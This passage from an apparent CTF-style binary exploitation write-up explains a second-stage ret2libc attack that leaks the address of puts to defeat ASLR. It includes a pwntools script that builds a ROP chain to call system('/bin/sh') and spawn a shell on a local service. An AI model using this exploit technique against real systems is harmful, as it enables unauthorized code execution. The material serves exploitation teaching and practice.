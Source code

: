 Now that we have the main address of puts in libc, we can calculate the base address of libc by subtracting the static offset of puts within the libc binary



## Second stage Attack

	calling system("/bin/sh")

With the base address of `libc` established, we can now navigate within `libc` without worrying about ASLR.

Remember, in an `x86_64` function call, the first argument is passed in `rdi`. To call our `system` function, we need to set `rdi` to point to a valid shell string.

In our case, we want to execute a shell. We can achieve this by locating the string `"/bin/sh"` within the `libc` binary and using its address.


```
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
```

After getting this address we can factor in the libc base address and chain our ROP as follows

- The offset to fill the buffer and anything up until the return address
- the address of pop_rdi to set the argument to our system function
- The value we want rdi to retain `"/bin/sh"` (argument for system)
- Then the address of sytem


```python
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
print(hex(libc.symbols['puts']))
proc = remote('0.0.0.0', '3001')

proc.writeafter("What is my address?\n", payload + b"\n")

proc.recv(2); #receive \n after 

libc_puts = u64(proc.recv(6).ljust(8, b'\x00'))


print(hex(libc_puts))
print(hex(libc_puts - libc.symbols['puts']))


address = libc_puts - libc.symbols['puts']

libc.address = address


binsh_addr = p64(address + 0x197e34)


system = p64(libc.symbols['system'])

payload2 = offset + pop_rdi + binsh_addr + system

payload2 += p64(libc.symbols['exit']) 

print(payload2)

proc.writeafter("What is my address?\n", payload2 + b"\n")


proc.interactive()
```
